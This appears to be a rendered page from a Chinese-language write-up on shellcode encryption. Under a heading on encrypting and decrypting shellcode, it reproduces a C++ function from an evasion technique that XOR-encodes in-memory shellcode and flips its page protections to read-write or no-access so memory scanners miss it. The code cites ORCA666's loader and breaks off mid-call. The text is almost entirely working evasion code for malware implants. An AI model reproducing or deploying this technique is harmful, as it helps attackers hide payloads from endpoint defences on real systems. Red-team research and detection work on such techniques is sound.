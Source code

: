   

```bash
加密和解密 shellcode：
```

```bash
void shellcodeEncryptDecrypt(LPVOID callerAddress)
{
    if ((g_fluctuate != NoFluctuation) && g_fluctuationData.shellcodeAddr != nullptr && g_fluctuationData.shellcodeSize > 0)
    {
        if (!isShellcodeThread(callerAddress))
            return;

        DWORD oldProt = 0;

        if (!g_fluctuationData.currentlyEncrypted
            || (g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA))
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_READWRITE,
                &g_fluctuationData.protect
            );

            log("[>] Flipped to RW.");
        }

        log((g_fluctuationData.currentlyEncrypted) ? "[<] Decoding..." : "[>] Encoding...");

        xor32(
            reinterpret_cast<uint8_t*>(g_fluctuationData.shellcodeAddr),
            g_fluctuationData.shellcodeSize,
            g_fluctuationData.encodeKey
        );

        if (!g_fluctuationData.currentlyEncrypted && g_fluctuate == FluctuateToNA)
        {
            //
            // Here we're utilising ORCA666's idea to mark the shellcode as PAGE_NOACCESS instead of PAGE_READWRITE
            // and our previously set up vectored exception handler should catch invalid memory access, flip back memory
            // protections and resume the execution.
            //
            // Be sure to check out ORCA666's original implementation here:
            //      https://github.com/ORCA666/0x41/blob/main/0x41/HookingLoader.hpp#L285
            //

            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
                PAGE_NOACCESS,
                &oldProt
            );

            log("[>] Flipped to No Access.\n");
        }
        else if (g_fluctuationData.currentlyEncrypted)
        {
            ::VirtualProtect(
                g_fluctuationData.shellcodeAddr,
                g_fluctuationData.shellcodeSize,
```